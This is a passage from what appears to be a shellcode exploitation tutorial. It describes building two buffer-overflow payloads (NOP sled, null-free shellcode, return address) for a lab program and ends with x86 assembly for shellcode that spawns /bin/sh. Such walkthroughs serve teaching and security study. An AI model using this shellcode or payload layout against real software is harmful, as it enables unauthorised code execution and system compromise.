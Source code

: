Payload B: Tuned for command-line input.

Both payloads were created using a Python script that:

    Constructs a large NOP-sled.

    Inserts the null-free shellcode.

    Adds padding.

    Appends the appropriate return address.

<img src="/images/shellcode-part2/12.jpg"
     alt="Dual payload, final script"
     width="900" />

Pseudocode:

     Define shellcode (pre-assembled payload to execute).
     Set buffer size to match the overflow threshold.
     Set specific return addresses for each payload type:
     - One for command-line input (-c)
     - One for file input (-f)
     Define NOP sled sizes:
     - Large sled for command-line payload
     - Smaller sled for file-based payload
     Create each payload:
     - Payload = 'A' * buffer + return address + NOP sled + shellcode
     Save both payloads to binary files:
     - payload_command.bin
     - payload_file.bin

With the dual payload setup, the script worked as intended for all options. 

<img src="/images/shellcode-part2/13.jpg"
     alt="Final script successful test"
     width="900" />

# Part 3: toward malicious shellcode

The next phase of the exercise introduces another change. Rather than simply printing a message, the goal is to build shellcode that executes arbitrary commands, such as spawning a shell or executing system binaries. This opens the door to command execution vulnerabilities, commonly exploited in real-world attacks.

For example, replacing the print+exit shellcode with:

    xor    eax,eax
    push   eax
    push   0x68732f2f ; // '//sh'
    push   0x6e69622f ; // '/bin'
    mov    ebx,esp
    mov    al,0xb
    xor    ecx,ecx
    xor    edx,edx
    int    0x80
